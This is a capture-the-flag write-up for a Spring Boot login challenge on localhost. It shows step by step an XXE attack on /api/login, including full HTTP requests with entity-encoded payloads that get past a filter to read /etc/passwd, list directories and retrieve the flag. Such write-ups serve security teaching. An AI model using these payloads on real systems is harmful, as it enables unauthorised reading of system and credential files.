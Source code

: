 # esay_login



Direct access to the webpage will find the obvious error 404 page of the `spring boot` program.

And challenge description is  /api/login

The access interface will find a direct 400, indicating that this interface exists, and submit any data after converting to post:

![image-20221231175544803](imgs/image-20221231175544803.png)

You will find that `Content-Type` is returned as application/xml

Let's try to modify the request data and the requested Content-Type to application/xml:

```
POST /api/login HTTP/1.1
Host: 127.0.0.1:18080
Content-Type: application/xml
Content-Length: 33

<root>
<text>123</text>
</root>
```

![image-20221231175742651](imgs/image-20221231175742651.png)

Next try xxe, the simplest payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

![image-20221231175853877](imgs/image-20221231175853877.png)

Filtering was found. Use the secondary encoding to bypass and get the payload:

```
POST /api/login HTTP/1.1
Host: 127.0.0.1:18080
Content-Type: application/xml
Content-Length: 329

<!DOCTYPE data [
<!ENTITY % xml "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x20;&#x68;&#x61;&#x68;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x65;&#x74;&#x63;&#x2f;&#x70;&#x61;&#x73;&#x73;&#x77;&#x64;&#x22;&#x3e;&#x0a;"> %xml;]>
<data>&haha;</data>
```

Use file:/// to list directories:

```
<!DOCTYPE data [
<!ENTITY % xml "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x20;&#x68;&#x61;&#x68;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x22;&#x3e;"> %xml;]>
<data>&haha;</data>
```

![image-20230223003827955](imgs/image-20230223003827955.png)



```
POST /api/login HTTP/1.1
Host: 127.0.0.1:18080
Content-Type: application/xml
Content-Length: 293

<!DOCTYPE data [
<!ENTITY % xml "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x20;&#x68;&#x61;&#x68;&#x61;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x66;&#x69;&#x6c;&#x65;&#x3a;&#x2f;&#x2f;&#x2f;&#x66;&#x6c;&#x61;&#x67;&#x22;&#x3e;"> %xml;]>

<data>&haha;</data>
```

flag is `#text: MOCSCTF{L0gin_M3_XxE_1s_GREEEATful}`
